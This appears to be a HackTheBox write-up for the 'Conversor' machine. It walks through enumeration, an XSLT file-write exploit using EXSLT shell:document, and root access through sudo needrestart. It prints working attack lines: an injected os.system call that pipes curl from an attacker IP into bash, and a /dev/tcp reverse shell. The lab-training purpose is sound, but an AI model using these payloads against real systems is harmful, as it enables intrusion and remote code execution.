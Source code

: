 # Conversor: HackTheBox

Difficulty: Easy

## Enumeration

- Port Scan: 22,80 open
- Port 80 has domain name `conversor.htb`
- Register and login as any user leading us to a file upload page, where we can upload an xml and an xml stylesheet file.
- On fuzzing we find an about page with source code


## Initial Access

- This is the tricky part of the box. So this snipper:

```python
xml_tree = etree.parse(xml_path, parser)
xslt_tree = etree.parse(xslt_path)
```

- This is the vulnerable part of the code because this parses and transforms the user supplied xml.
<!-- I spammed a writeup for this bit as there was really no logical way for me to figure this out. Not sure how I should've arrived at this to be honest. Even GPT did not spot this exploit -->
- Libxml2 supports `http://exslt.org/common`, this is dangerous as it includes a function called shell:document. This allows the xml to output the result to multiple files. So we'll just add this output to the /scripts/ directory and get our hands on a shell. (I know this by seeing the `install.md` file in the source code.)

- So the payload would look like this (filename: payload.esxlt)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell">

    <xsl:template match="/">
        <shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl http://10.10.14.50:8000/shell.sh|bash")
        </shell:document>
    </xsl:template>

</xsl:stylesheet>
```

- I will create a shell.sh file containing a reverse shell payload.

```bash
#!/bin/bash

sh -i >& /dev/tcp/10.10.14.50/4444 0>&1
```

- Now we will start a python http server on port 8000 and a netcat listener on port 4444.
- Upload the xml and the xslt stylesheet and wait for a minute or 2. The exploit will succeed.

- Once we gain the shell, we can check the instance/users.db file for the initial user (password is crackable in crackstation).

## Privilege Escalation

- Running `sudo -l` gives this:

```
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

- Just follow [this](https://medium.com/@momo334678/needrestart-sudo-privilege-escalation-44ae1c89bcc2) to get root.
- Exploit command:

```bash
sudo /usr/sbin/needrestart -c /root/root.txt
```

Happy Hacking :)

